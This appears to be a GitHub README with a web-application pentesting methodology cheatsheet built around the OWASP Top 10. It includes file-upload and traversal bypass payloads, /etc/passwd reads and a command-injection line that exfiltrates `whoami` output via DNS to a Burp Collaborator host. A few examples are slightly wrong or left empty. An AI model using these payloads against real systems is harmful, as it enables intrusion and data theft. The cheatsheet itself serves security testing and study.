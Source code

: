 
# Methodology // Exploitation Cheatsheet

[OWASP Top 10](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)

[OWASP checklist](https://github.com/tanprathan/OWASP-Testing-Checklist)

  - Follow along with [OWASP release 4.0](https://www.owasp.org/images/1/19/OTGv4.pdf) for each section

<details>
  <summary>Enumeration</summary>
  <br>
  
  ## Content discovery
  
   - What is the server running on/versions?
    - Wappalyzer 
    - Response headers
    - Inspect source
    - Fingerprint server
    
          httprint -P0 -h <IP> -s /usr/share/httprint/<signature file>
  
  ## Vulnerability/misconfiguration scanning
  
   - Nikto 
   
   - [Header scanning](https://securityheaders.com/)

  
  [Visual site mapper](http://www.visualsitemapper.com/)
  
  Wappalyzer extension for server/web app details
  
  ## Subdomain discovery
  
  - Sublist3r (scraping)
  - SubFinder-o
  - [assetfinder](https://github.com/tomnomnom/assetfinder)
   
        assetfinder <domain.TLD>
        
         By default will also find related assets that may not be in the searched domain.
        
          --subs-only   #will only find subdomains
   
  - AMass
  
  - [gowitness](https://github.com/sensepost/gowitness)
  
     Takes screenshots of websites
  
  - [httprobe](https://github.com/tomnomnom/httprobe)
  
      Will check if subdomains responds
 
  - [waybackurls](go get github.com/tomnomnom/waybackurls)
  
      Checks URLs against the wayback machine
  
  ## Directory discovery
  
  - dirbuster
  
  Also add file extensions related to underlysing software.

 Wordlists
 
    /usr/share/wordlists/dirb/
    /usr/share/wordlists/dirbuster/
</details>

<details>
<summary>Learning the application</summary>
  While running Burp, run through the site.
  How is everything handled? (pages, files, auth)
  What is the application for? (Photo storage, blog, store)
  
</details>

<details>
  <summaryHTTP version syntax</summary>
  <br>
  
  **HTTP/1.0** 
   
      GET <resource> HTTP/1.0
      
  **HTTP/1.1** 
   
      GET <resource> HTTP/1.0
      Host: <domain>.<tld>
  
</details>


<details>
  <summary>Exploiting Misconfigured HTTP Verbs</summary>
  <br>
  
  **DELETE** 
   
        DELETE  <resource> HTTP/1.0
        
  **PUT**
  
        PUT /<filename for upload> HTTP/1.0 
        Content-type: text/html
        Content-length: <size of upload. Burp will auto count>
        
        
        <script>
  
</details>

-----------------------------------------------------------------------------

<details>
  <summary>SQLi</summary>
  <br>
  
  [SQL Syntax](https://www.w3schools.com/sql/sql_intro.asp) 
  
  [Injection](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection)
  
  SQL statements begin with verbs.
 - Common SQL verbs:
        - SELECT
        - INSERT
        - DELETE
        - UPDATE
        - DROP
        - UNION
   
   - Terms:
        - WHERE - Filters records based on specific condition
        - AND/OR/NOT - Filter records based on multiple condtions
        - ORDER BY - Sorts records in ascending/descending order
        
   - Special characters:
        - ' and " - string delimeters
        - -- , /* and #  - Comment delimiters
        - * and %  - wildcards
        - ; - ends SQL statement
        - Others that follow programmatic logic - = , + , > , < , () , etc
        
   Example:
   
        <verb> <* or column> FROM <Table name> WHERE <Term / Condition> 
</details>


<details>
  <summary>Broken Authentication</summary>
  <br>
   
   [Broken Authentication](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)

   Application functions related to authentication and session management are often implemented incorrectly, allowing attackers to compromise passwords, keys, or session tokens, or to exploit other implementation flaws to assume other users’ identities temporarily or permanently.
   
    - Testing login/password recovery error for username enumeration
    
    - Session fixation
        - How are session IDs handled? In URL or cookie? Are they encrypted/handled properly?
        - Does logging out revoke the cookie? Immediatly?
        - Is there a timeout on the session cookie?

</details>


<details>
  <summary>Sensitive Data Exposure</summary>
  <br>
   
 [Sensitive Data Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
 
 Many web applications and APIs do not properly protect sensitive data, such as financial, healthcare, and PII. Attackers may steal or modify such weakly protected data to conduct credit card fraud, identity theft, or other crimes. Sensitive data may be compromised without extra protection, such as encryption at rest or in transit, and requires special precautions when exchanged with the browser.
 
   - Stored credentials in site/site scripts
   
   - Backup directories
   
   - Dev directories
   
   - Internal data
   
   - Not in a dir accessable to anyone
   
   - Not Encrypted sensitive data if accessible
   
   - Are appropriate headers applie so attacks against a session cannot occur? Mitm/downgrade/etc
      - [Header scanning](https://securityheaders.com/)
      
   - Does it support new/degraded encryption. 
       
         nmap --script=ssl-enum-ciphers -p 443 <URL>
</details>


<details>
  <summary>XXE</summary>
  <br>
   
   [XML External Entities](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A4-XML_External_Entities_(XXE))
   
   Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks. An XML entity is like a variable that you can call into the page later. On the page you care only able to use alphanumeraic characters for strings, however you can call in an entity that contains special characters. You will notice the SYSTEM key word to let the parser know that the resource is external, i.e can pull data from the system. 
   
   [XXE Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
   
  
</details>

<details>
  <summary>Broken Access Control</summary>
  <br>
  
  [Broken Access Controls](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control)
  
  Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access other users’ accounts, view sensitive files, modify other users’ data, change access rights, etc


   - Look for client side code that handle data incorrectly
       - Hidden fields that have password/ UID data that can be minipulated
       - Cookies that improperly control access (i.e IsAdmin cookie)
       - 
   
   <details>
    <summary>403 restrictions bypass</summary>
     <br>
   
     Try other HTTP methods
   
       Try headers:
   
       X-Original-URL: <path>
     
       X-Rewrite-URL: <path>
   
   </details>
</details>


<details>
  <summary>Security Misconfiguration</summary>
  <br>

   [Security Misconfiguration](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A6-Security_Misconfiguration)
   
   Security misconfiguration is the most commonly seen issue. This is commonly a result of insecure default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured HTTP headers, and verbose error messages containing sensitive information. Not only must all operating systems, frameworks, libraries, and applications be securely configured, but they must be patched/upgraded in a timely fashion.
</details>


<details>
  <summary>XSS</summary>
  <br>
   [XSS](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)) 
    
   [Portswigger Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
   
   XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites. Note that reflected and DOM based XSS require social engineering. 
   
  [Payloads](https://github.com/pgaijin66/XSS-Payloads/blob/master/payload.txt)
   
   Blacklist bypassing:
    
     - Pay around with what is beng removed with input is entered. 
     
      + 
      
      <<  >> /
      
      Uppercase/lowercase
      
      encoding
   
</details>

<details>
  <summary>Insecure Deserialization</summary>
  <br>
   
   [Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)
   
   Taking data that is serialized (taking data, and converting it to a different format), and deserializing it. Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks. 
   
   https://github.com/frohoff/ysoserial
   
</details>

<details>
  <summary>Using Components with Known Vulnerabilities</summary>
  <br>
   
   [Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities)
   
   Components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts. Look for CVE or known vulnerabilities with software versions the target is running.
</details>

<details>
  <summary>Insufficient Logging&Monitoring</summary>
  <br>
   
   [Insufficient Logging&Monitoring](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A10-Insufficient_Logging%252526Monitoring)
   
 Insufficient logging and monitoring, coupled with missing or ineffective integration with incident response, allows attackers to further attack systems, maintain persistence, pivot to more systems, and tamper, extract, or destroy data. Most breach studies show time to detect a breach is over 200 days, typically detected by external parties rather than internal processes or monitoring.
</details>


<details>
  <summary>Parameters</summary>
  <br>
  
  Garbage info ( symbols, negative intigers)
  
  Other account tokens, token mixing
  
  HPP
  
</details>


<details>
  <summary>File Upload</summary>
  <br>
  
  Things to think about:
  
    - File size limit for DoS
  
    - Santized filenames ? buffer overflow
  
    - How are zip files handeled if accepted?
  
    - How are files renamed / accessed
  
    - Check Content-Type header
    
    - is it a blacklist or a whitelist
    
    - How are the files being varified? Name, POST form or file content?
  
  Payloads: 
  
   ## manual testing bypass
    
    .PhP .php3 .php5
    
    .php00.png
    
    .php (1).png
  
  ## Use Burp intruder against the wordlist inder /usr/share/wordlists/dirb/
    
    
   ## Editing upload request 
</details>


<details>
  <summary>Open redirects</summary>
  <br>
 
  If the site redirects.
  
  Server side: 
   
    - Referer in Http request
    - Checking if only relative / are allowed. // is a protocol agnostic, absolute URL. Try that.
  
  Client side:
  
    - window.location how is it checked? 
</details>

<details>
  <summary>Privilege Escalation</summary>
  <br>
  
  Cookies:
     How are sessions being held in cookies. Vuln to tampering (no digital sig)?
     What other info is in the cookies? 
     Try to see if the server will take untrusted data from your requests.
     Encrypted?
      
  <details>
  <summary>Try Horizontal escalation:</summary>
  <br>
  Horizontal privilege escalation occurs when an application allows the attacker to gain access to resources which normally would have been protected from an application or user. The result is that the application performs actions with the same but different security context than intended by the application developer or system administrator; this is effectively a limited form of privilege escalation (specifically, the unauthorized assumption of the capability of impersonating other users). 
  </details>   

  Finding a way tio make requests as an admin 
   
  <details>
  <summary>Vertical Escalation</summary>
  <br>
  This type of privilege escalation occurs when the user or process is able to obtain a higher level of access than an administrator or system developer intended, possibly by performing kernel-level operations. 
  </details>
</details>

<details>
  <summary>Session Fixation</summary>
  <br>
  
  Can you take control of an authenticated users session using the sessionID.
  
  - Use the sessionID that has already been established
  
  - Craft a sessionID and see if that sticks. i.e www.site.com/login?jsessionID=CraftedID 
    Login and see if the sessionID stays the same.
  
</details>


<details>
  <summary>Command Injection</summary>
  <br>

 Areas with user input that could have its handleing manipulated to run an OS command.

   Parrameters sent such as those in URLs i.e ?filename=  or user input.
  
  Command seperators which allow for commands to be chained together. 
   nix/Windows
   
    & 
    && (extra & separates the injected command from whatever follows the injection point.)
    |
    ||
    
   Unix
    
    ;
    0x0a or /n (newline)
    
   Unix. Back ticks or dollar character can be used to perform inline execution of an injected command within the original command. 
     
    ' Command ' 
    $(Command)
    
  Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

 Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to  terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command. 


  Useful commands 

    Purpose of command 	Linux 	Windows
    Name of current user 	whoami 	whoami
    Operating system 	uname -a 	ver
    Network configuration 	ifconfig 	ipconfig /all
    Network connections 	netstat -an 	netstat -an
    Running processes 	ps -ef 	tasklist 
    
   Blind:
    
   wait X seconds to test
   
     ping -c X 127.0.0.1 
     
   Rediecting blind output
   
    whoami > /<writable folder>
    
    Then naviage to that file  www.example.ca/<writeable file>
     
     
   Note that the file may only be accessable how the server allows it to be accessed. 
   Example: you write to an image directory but the server only allows the files to be accessed via 
      
       /image?filename=myfile.txt 
       so /image/myfile.txt may not work.
   
   Out-of-band
   
   Having the server interact with another system you control 
   
    ping BurpCollab
    
   Exfultrate data using out-of-band
   
    $(nslookup `whoami`.c2f2evzg76x5nz0z7m8uwsvvrmxdl2.burpcollaborator.net)
     
   Which will result in this request to my DNS server
    
   [![DNS-request.png](https://i.postimg.cc/L41gCYwc/DNS-request.png)](https://postimg.cc/23C536zG)

</details>

<details>
  <summary>Directory Traversal</summary>
  <br>
  Allows the reading of files on the server that is running the vulnerable application by manipulating a parameter. 
 
     /image?filename=../../../etc/passwd
 
 Attempt with abosule and relative paths as one or the other may be blocked/not blocked.
 
 Bypassing stripped traversal
 
  ....// and ...\/ will strip the detected ../ and ..\ from the centre and the outsides will come together to make ../.
  If what gets parsed / removed is responded use that to try to find a way to bypass. 
  
  encoding:
  
    ..%252f (takes away the 25 and you are left with the / encodded)
    ..%c0%af
  
  Some applications transmit the full path via the request, you may need to append your traversal to that.
 
    /image?filename=/var/www/images/../../../../etc.passwd
    
  Bypass required endings to a file
  
   %00 (null byte)
   
    passwd%00.png
    
  Note that depending on how the server sends thse back you may have to curl the request.
  
    curl https://ac8d1f3e1f7f4d4080c322dc0035009c.web-security-academy.net/image?filename=../../../../etc/passwd%00.jpg

 
</details>

<details>
  <summary>Sub Domain Takeover</summary>
  <br>
  
  If a sub domain that is found belonging to a target that is unused may be vulnerable to sub domain takeover. 
  
  Signs: 
  
  Exploit:
</details>


<details>
  <summary>SSRF</summary>
  <br>
  
  - Bypass SSRF fix. Change HTTP version from 1.1 to 0.9 and remove the host header completely. On HTTP/0.9 there is no need for a host header.
</details>



<details>
  <summary></summary>
  <br>
</details>
